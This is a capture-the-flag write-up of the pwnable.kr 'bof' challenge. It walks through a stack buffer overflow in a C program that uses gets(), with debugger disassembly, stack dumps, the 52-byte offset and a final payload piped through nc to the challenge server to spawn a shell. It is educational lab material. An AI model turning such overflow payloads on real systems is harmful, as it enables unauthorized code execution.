

This challenge belong to buffer overflow challenge. When you use some weak functions like strcpy, gets, etc. which do not attually check the size of the text and the text will overwrite the adjacency region of the buffer. Because of the alignment of the stack frame, we can use buffer overflow to overwrite local variable, parameter or even the return address which we can inject the address of arbitrary (malicous) function, then the original program run this function with there privilege.

Check the source code of the `bof` challenge.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

The following picture is the stack frame. The gets function does not check the size of the input text. The parameter `key` contains the value `0xdeadbeef` as an input. So, we need to change it to `0xcafebabe` to make the condition goes true.





To do that, we need to check where the local variable `overflowme` and parameter `key` are stored. Then we can overwrite the value of `key`.

We need to debug the `bof` program. We can use `pwndbg` which is an add-in for gdb with more functions.

We use the **gdb** and disasemble the `main` function. We need to run it first, before disassemble.

```
tranad@tranad-GV62-7RD:~/pwnable.kr/bof$ gdb -q ./bof
pwndbg: loaded 175 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from ./bof...(no debugging symbols found)...done.
pwndbg> disassemble main
Dump of assembler code for function main:
   0x5655568a <+0>:	push   ebp
   0x5655568b <+1>:	mov    ebp,esp
   0x5655568d <+3>:	and    esp,0xfffffff0
   0x56555690 <+6>:	sub    esp,0x10
   0x56555693 <+9>:	mov    DWORD PTR [esp],0xdeadbeef
   0x5655569a <+16>:	call   0x5655562c <func>
   0x5655569f <+21>:	mov    eax,0x0
   0x565556a4 <+26>:	leave  
   0x565556a5 <+27>:	ret    
End of assembler dump.
pwndbg> 

```


Put the break point at `0x5655569a` or `main+16` to jump into the call function `func` and run it.

```
pwndbg> r
Starting program: /home/tranad/pwnable.kr/bof/bof 
Warning:
Cannot insert breakpoint 1.
Cannot access memory at address 0x69a

LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────
 EAX  0x0
 EBX  0x0
 ECX  0x0
 EDX  0x0
 EDI  0x0
 ESI  0x0
 EBP  0x0
 ESP  0xffffd0e0 ◂— 0x1
 EIP  0xf7fd6c70 ◂— mov    eax, esp
───────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────
 ► 0xf7fd6c70    mov    eax, esp
   0xf7fd6c72    sub    esp, 0xc
   0xf7fd6c75    push   eax
   0xf7fd6c76    call   0xf7fd7800
 
   0xf7fd6c7b    add    esp, 0x10
   0xf7fd6c7e    mov    edi, eax
   0xf7fd6c80    call   0xf7fd6c60
 
   0xf7fd6c85    add    ebx, 0x2637b
   0xf7fd6c8b    mov    eax, dword ptr [ebx - 0x70c]
   0xf7fd6c91    pop    edx
   0xf7fd6c92    lea    esp, [esp + eax*4]
────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────
00:0000│ esp  0xffffd0e0 ◂— 0x1
01:0004│      0xffffd0e4 —▸ 0xffffd2b0 ◂— 0x6d6f682f ('/hom')
02:0008│      0xffffd0e8 ◂— 0x0
03:000c│      0xffffd0ec —▸ 0xffffd2d0 ◂— 0x54554c43 ('CLUT')
04:0010│      0xffffd0f0 —▸ 0xffffd2e6 ◂— 0x435f534c ('LS_C')
05:0014│      0xffffd0f4 —▸ 0xffffd8d2 ◂— 0x4d5f434c ('LC_M')
06:0018│      0xffffd0f8 —▸ 0xffffd8ed ◂— 0x5353454c ('LESS')
07:001c│      0xffffd0fc —▸ 0xffffd90f ◂— 0x505f434c ('LC_P')
──────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────
 ► f 0 f7fd6c70
pwndbg> 
```

We disasemble the function `func`

```
pwndbg> disassemble func
Dump of assembler code for function func:
   0x5655562c <+0>:	push   ebp
   0x5655562d <+1>:	mov    ebp,esp
   0x5655562f <+3>:	sub    esp,0x48
   0x56555632 <+6>:	mov    eax,gs:0x14
   0x56555638 <+12>:	mov    DWORD PTR [ebp-0xc],eax
   0x5655563b <+15>:	xor    eax,eax
   0x5655563d <+17>:	mov    DWORD PTR [esp],0x78c
   0x56555644 <+24>:	call   0x56555645 <func+25>
   0x56555649 <+29>:	lea    eax,[ebp-0x2c]
   0x5655564c <+32>:	mov    DWORD PTR [esp],eax
   0x5655564f <+35>:	call   0x56555650 <func+36>
   0x56555654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x5655565b <+47>:	jne    0x5655566b <func+63>
   0x5655565d <+49>:	mov    DWORD PTR [esp],0x79b
   0x56555664 <+56>:	call   0x56555665 <func+57>
   0x56555669 <+61>:	jmp    0x56555677 <func+75>
   0x5655566b <+63>:	mov    DWORD PTR [esp],0x7a3
   0x56555672 <+70>:	call   0x56555673 <func+71>
   0x56555677 <+75>:	mov    eax,DWORD PTR [ebp-0xc]
   0x5655567a <+78>:	xor    eax,DWORD PTR gs:0x14
   0x56555681 <+85>:	je     0x56555688 <func+92>
   0x56555683 <+87>:	call   0x56555684 <func+88>
   0x56555688 <+92>:	leave  
   0x56555689 <+93>:	ret    
End of assembler dump.
pwndbg> 
```

Now we can put the break point in the compare funtion. The goal of the next step is to find where is the overflowme is stored and where is the `0xdeadbeef` is stored.

```
pwndbg> b *0x56555654
Breakpoint 2 at 0x56555654
```

Continue until we need to type the input. Just put `AAAAAAAAAAAAAAAAAAAA`

```
pwndbg> c
Continuing.
overflow me : 
AAAAAAAAAAAAAAAAAAAA

Breakpoint 3, 0x56555654 in func ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────
 EAX  0xffffcffc ◂— 0x41414141 ('AAAA')
 EBX  0x0
 ECX  0xf7faf5c0 (_IO_2_1_stdin_) ◂— 0xfbad2288
 EDX  0xf7fb089c (_IO_stdfile_0_lock) ◂— 0x0
 EDI  0x0
 ESI  0xf7faf000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1d7d6c
 EBP  0xffffd028 —▸ 0xffffd048 ◂— 0x0
 ESP  0xffffcfe0 —▸ 0xffffcffc ◂— 0x41414141 ('AAAA')
 EIP  0x56555654 (func+40) ◂— cmp    dword ptr [ebp + 8], 0xcafebabe
───────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────
 ► 0x56555654 <func+40>    cmp    dword ptr [ebp + 8], 0xcafebabe
   0x5655565b <func+47>    jne    func+63 <0x5655566b>
    ↓
   0x5655566b <func+63>    mov    dword ptr [esp], 0x565557a3
   0x56555672 <func+70>    call   puts <0xf7e3eb40>
 
   0x56555677 <func+75>    mov    eax, dword ptr [ebp - 0xc]
   0x5655567a <func+78>    xor    eax, dword ptr gs:[0x14]
   0x56555681 <func+85>    je     func+92 <0x56555688>
 
   0x56555683 <func+87>    call   __stack_chk_fail <0xf7ee0b60>
 
   0x56555688 <func+92>    leave  
   0x56555689 <func+93>    ret    
 
   0x5655568a <main>       push   ebp
────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────
00:0000│ esp  0xffffcfe0 —▸ 0xffffcffc ◂— 0x41414141 ('AAAA')
01:0004│      0xffffcfe4 ◂— 0x0
... ↓
03:000c│      0xffffcfec ◂— 0x6fe9c300
04:0010│      0xffffcff0 ◂— 9 /* '\t' */
05:0014│      0xffffcff4 —▸ 0xffffd2b0 ◂— 0x6d6f682f ('/hom')
06:0018│      0xffffcff8 —▸ 0xf7e074a9 (__new_exitfn+9) ◂— add    ebx, 0x1a7b57
07:001c│ eax  0xffffcffc ◂— 0x41414141 ('AAAA')
──────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────
 ► f 0 56555654 func+40
   f 1 5655569f main+21
   f 2 f7defe81 __libc_start_main+241
Breakpoint *0x56555654
```

We can see the line `esp  0xffffcfe0 —▸ 0xffffcffc ◂— 0x41414141 ('AAAA')`. So, now we check the data from the address `0xffffcffc` to see how our input is stored by using `x\20xw` which dump 20 word in hexa.

```
pwndbg> x/20xw 0xffffcffc
0xffffcffc:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd00c:	0x41414141	0xf7faf300	0x00000000	0x56556ff4
0xffffd01c:	0x6fe9c300	0x00000000	0xf7e075db	0xffffd048
0xffffd02c:	0x5655569f	0xdeadbeef	0x00000000	0x565556b9
0xffffd03c:	0x00000000	0xf7faf000	0xf7faf000	0x00000000
```

`0x41414141` is `AAAA`. We can see `0xdeadbeef` which is the data of parameter key in line 3. We need to overwrite this value with `0xcafebabe`. From the begining address of overflowme to key, it takes 52 byes (from `0xffffcffc` to `0xffff0d30`). Another note is: we need to write `0xcafebabe` in litlle endian.

We can test:

```
pwndbg> r <<< $(python -c "print('A'*52+'\xbe\xba\xfe\xca')")
Starting program: /home/tranad/pwnable.kr/bof/bof <<< $(python -c "print('A'*52+'\xbe\xba\xfe\xca')")
overflow me : 

Breakpoint 1, 0x56555654 in func ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────
 EAX  0xffffcffc ◂— 0x41414141 ('AAAA')
 EBX  0x0
 ECX  0xf7faf5c0 (_IO_2_1_stdin_) ◂— 0xfbad2088
 EDX  0xf7fb089c (_IO_stdfile_0_lock) ◂— 0x0
 EDI  0x0
 ESI  0xf7faf000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x1d7d6c
 EBP  0xffffd028 ◂— 0x41414141 ('AAAA')
 ESP  0xffffcfe0 —▸ 0xffffcffc ◂— 0x41414141 ('AAAA')
 EIP  0x56555654 (func+40) ◂— cmp    dword ptr [ebp + 8], 0xcafebabe
───────────────────────────────────────────────[ DISASM ]────────────────────────────────────────────────
 ► 0x56555654 <func+40>    cmp    dword ptr [ebp + 8], 0xcafebabe
   0x5655565b <func+47>    jne    func+63 <0x5655566b>
 
   0x5655565d <func+49>    mov    dword ptr [esp], 0x5655579b
   0x56555664 <func+56>    call   system <0xf7e14200>
 
   0x56555669 <func+61>    jmp    func+75 <0x56555677>
 
   0x5655566b <func+63>    mov    dword ptr [esp], 0x565557a3
   0x56555672 <func+70>    call   puts <0xf7e3eb40>
 
   0x56555677 <func+75>    mov    eax, dword ptr [ebp - 0xc]
   0x5655567a <func+78>    xor    eax, dword ptr gs:[0x14]
   0x56555681 <func+85>    je     func+92 <0x56555688>
 
   0x56555683 <func+87>    call   __stack_chk_fail <0xf7ee0b60>
────────────────────────────────────────────────[ STACK ]────────────────────────────────────────────────
00:0000│ esp  0xffffcfe0 —▸ 0xffffcffc ◂— 0x41414141 ('AAAA')
01:0004│      0xffffcfe4 ◂— 0x0
... ↓
03:000c│      0xffffcfec ◂— 0x776e9500
04:0010│      0xffffcff0 ◂— 9 /* '\t' */
05:0014│      0xffffcff4 —▸ 0xffffd2b0 ◂— 0x6d6f682f ('/hom')
06:0018│      0xffffcff8 —▸ 0xf7e074a9 (__new_exitfn+9) ◂— add    ebx, 0x1a7b57
07:001c│ eax  0xffffcffc ◂— 0x41414141 ('AAAA')
──────────────────────────────────────────────[ BACKTRACE ]──────────────────────────────────────────────
 ► f 0 56555654 func+40
   f 1 41414141
   f 2 cafebabe
   f 3        0
Breakpoint *0x56555654
pwndbg> x/20xw 0xffffcffc
0xffffcffc:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd00c:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd01c:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd02c:	0x41414141	0xcafebabe	0x00000000	0x565556b9
0xffffd03c:	0x00000000	0xf7faf000	0xf7faf000	0x00000000

```

We can clearly see that the value of `key` is overwritten with 0xcafebabe.

The final command to hack it
```
(python -c "print(52*'A'+'\xbe\xba\xfe\xca')";cat) | nc pwnable.kr 9000
```

NOTE: Another way to do it, to test local is host program as a server, then using python program to connect to this server, which we can get and push message to server (check it more in another note using virtual enviroment)
   
